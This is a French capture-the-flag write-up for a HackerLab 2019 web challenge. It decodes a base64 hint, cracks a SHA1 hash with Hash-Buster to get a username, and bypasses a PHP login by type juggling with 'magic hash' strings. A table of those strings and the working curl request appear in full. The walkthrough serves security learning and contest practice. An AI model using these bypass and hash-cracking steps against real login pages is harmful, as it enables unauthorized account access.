 * * *
# La porte du couvent
> (Web, 400 points )
---
## Challenge :
> Dans leur élan pour secourir les dernières victimes du célèbre Gayeman DJAKPATAGLO, les cyber-amazones font face à la porte d'un couvent impénétrable. http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html

En accédant au lien du challenge, on se voit présenter un formulaire.

<img src="Images/porte-couvent-1.png">

On remarque que, peu importe ce qu'on entre dans le champ  ```username``` et ```password```, on est redirigé sur une **URL** nous présentant une chaîne encodée en base64: **dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ==** . Pour décoder cette chaîne, il suffira d'exécuter la commande ci-dessous :
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# base64 -d <<< "dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ=="
vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895
```
La chaîne décodée est : **vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895**. Ce message nous présente à la fin un hash. L'objectif serait maintenant de chercher à avoir le contenu du hash. Pour le faire, nous utiliserons un célèbre outil ```buster``` (https://github.com/s0md3v/Hash-Buster) , qui pourra nous aider à obtenir le contenu du ```hash```. 
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# buster -s "e7791ece9da5a6e3f0aa6ba77536fbc6b7780895"
_  _ ____ ____ _  _    ___  _  _ ____ ___ ____ ____
|__| |__| [__  |__|    |__] |  | [__   |  |___ |__/
|  | |  | ___] |  |    |__] |__| ___]  |  |___ |  \  v3.0

[!] Hash function : SHA1
amazone

```
En un rien de temps, nous obtenons la chaîne se retrouvant derrière le ```hash``` : **amazone**.  
Cette chaîne obtenue représente donc notre ```login``` pour la page http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html. L'objectif suivant serait maintenant de retrouver le ```mot de passe``` qui va avec ce ```login```. Pour l'obtenir, nous avions testé un **bruteforce** par **"POST"** sur le formulaire avec le célèbre ```hydra```, mais sans succès. Nous avions aussi essayé une **injection SQL** pour bypasser l'authenfication, mais sans succès aussi. En fin de compte, nous avions donc cherché à avoir un coup de main en cliquant sur le ```hint``` du challenge. L'indice dévoilé est en effet : **php type struggle**. Des recherches effectuées à partir de cet indice nous amène sur cette page https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling. Cette page parle du **PHP Juggling type and magic hashes**. Méthode pouvant permettre de ```bypasser des comparaisons en php```. En fouillant un peu la page, on retrouve quelques extraits de **chaînes de caractères magiques** pouvant bypasser des comparaisons php utilisant ```==```.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)


Nous allons donc essayer ses différents **“Magic” Number / String** comme ```password``` pour voir le résultat.
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# curl -X POST http://hackerlab.bj:8001/web03/loginform.php --data "username=amazone&password=240610708"
Flag: CTF_NOMDEHACKERCEQUETUESFORT
```
En testant le premier **“Magic” Number / String** ( **240610708** ) comme ```password```, on obtient notre ```flag```.

```Flag ```: **CTF_NOMDEHACKERCEQUETUESFORT**